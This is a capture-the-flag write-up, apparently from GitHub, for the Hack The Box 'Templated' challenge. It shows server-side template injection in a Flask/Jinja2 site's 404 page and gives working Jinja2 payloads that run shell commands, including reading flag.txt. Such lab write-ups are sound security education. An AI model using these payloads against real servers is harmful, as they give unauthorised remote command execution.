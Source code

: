 # Templated

This is a write up to the Hack The Box challenge Templated which exploits vulnerabilities in SSTI (server side template injection)

The front page of the site has this.

![front page](./frontpage.PNG)

This meant the page was templated using flask web frame work and jinja2 web templating.

To start I initially wanted to check if I could dirsearch some of the pages to see if there was a page i could go strait to aides from the home page.

```bash
python3 dirsearch.py -u http://134.209.190.86:32661/
 ```
This returned every site as 200 OK.

When visiting one of the pages it returned it as a 404, this is pretty intresting.
This means the 404 pages are possibly being templated.

A quick search on the internet meant we can find some exploits on flask and jinja2.

This is the link found: https://www.onsecurity.io/blog/server-side-template-injection-with-jinja2/

In this challenge we could edit the URL so I went down the the **RCE Bypassing as much as i possibly can** heading and found this command:
```
{{request.application.__globals__.__builtins__.__import__('os').popen('id').read()}}
```
This will return the current user on the page.

![Response to edited url](./URL-change-response.PNG)

Wow! we are root!

now try this command:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('ls -a').read()}}
```
![Response to edited url second time](./URL-change-response2.PNG)

looking at the files returned, we can just cat flag.txt as that will contain our flag using:

```
{{request.application.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read()}}
```

which will return a flag where the page name normall is.
